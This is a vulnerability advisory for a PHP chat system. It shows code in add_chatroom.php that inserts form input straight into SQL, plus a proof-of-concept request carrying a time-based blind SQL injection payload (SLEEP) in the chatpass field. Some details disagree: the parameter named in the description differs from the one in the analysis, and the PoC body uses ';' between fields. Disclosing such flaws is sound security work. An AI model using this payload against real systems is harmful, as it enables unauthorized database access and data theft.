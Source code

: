 # Chat System Using PHP has sql injection in /user/add_chatroom.php



## supplier



https://code-projects.org/chat-system-using-php-source-code/



## Vulnerability file



/user/add_chatroom.php



## describe


The user parameter in /user/add_chatroom.php is not properly sanitized or parameterized, which leaves it vulnerable to SQL injection attacks. Attackers can exploit this by injecting malicious SQL code to manipulate the database queries. Utilizing time-based SQL injection methods, they can introduce intentional delays in the database response through functions such as SLEEP(). This technique can be employed to verify the existence of the vulnerability and may also be used to extract sensitive information from the database.



## **Code analysis**



```php
<?php 
	include('session.php');
	
	if (isset($_POST['chatname'])){
	$cid="";
	$chat_name=$_POST['chatname'];
	$chat_password=$_POST['chatpass'];
	
	mysqli_query($conn,"insert into chatroom (chat_name, chat_password, date_created, userid) values ('$chat_name', '$chat_password', NOW(), '".$_SESSION['id']."')");
	$cid=mysqli_insert_id($conn);
	
	mysqli_query($conn,"insert into chat_member (chatroomid, userid) values ('$cid', '".$_SESSION['id']."')");
	
	echo $cid;
	}
	
	
?>
```

Inserting $_POST['chatpass'] into Mysql without any filter. A time-based blind SQL injection can be triggered.





## POC

```http
POST /user/add_chatroom.php?id=1 HTTP/1.1
Host: 127.0.0.1:8081
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=3d6344gkrsj651acv0qni7dk6a
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Cookie: PHPSESSID=fs4gl23e65dv8mr1vhm1jsg5ro
Content-Length: 54

chatname=1;chatpass=2' AND (SELECT 6847 FROM (SELECT(SLEEP(5)))lqtn) AND 'DdFS'='DdFS
```

Send this request, you can observe an additional 5 seconds time delay triggered by the time-based injection.

